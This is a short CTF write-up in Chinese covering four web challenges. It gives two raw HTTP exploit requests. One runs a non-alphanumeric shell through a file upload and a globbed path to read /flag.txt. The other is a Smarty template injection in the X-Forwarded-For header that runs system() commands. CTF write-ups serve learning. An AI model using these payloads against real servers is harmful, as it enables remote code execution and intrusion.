


# 1.签到

直接右键查看源代码，over

# 2.easy_web1



# 3.easy_web2



抄的我p神的思路

```
POST /?shell=.%20%2F%3F%3F%3F%2F%3F%3F%3F%3F%3F%3F%3F%3F%5B%40-%5B%5D HTTP/1.1
Host: cloudeci1.ichunqiu.com
Content-Length: 206
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrLrIdoDjGOhHKAwU
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryrLrIdoDjGOhHKAwU
Content-Disposition: form-data; name="upload"; filename="a.txt"
Content-Type: text/plain

#! /bin/sh

cat /flag.txt
------WebKitFormBoundaryrLrIdoDjGOhHKAwU--
```

参考文章 `https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html`


# 4.super_hacker

测试发现，执行命令不能含有空格和i


用assert执行post里面的内容就可以了，先find一下，然后再cat。over

```
POST / HTTP/1.1
Host: eci-.cloudeci1.ichunqiu.com
Pragma: no-cache
Cache-Control: no-cache
Origin: http://eci-.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
DNT: 1
Accept: */*
Via: 1.1 vegur
X-Forwarded-For: {assert($smarty.post.a)}
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __jsluid_h=f8c4073200e23f9fef8f14be5a907849
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

a=system("find / -name 'flag'")
```

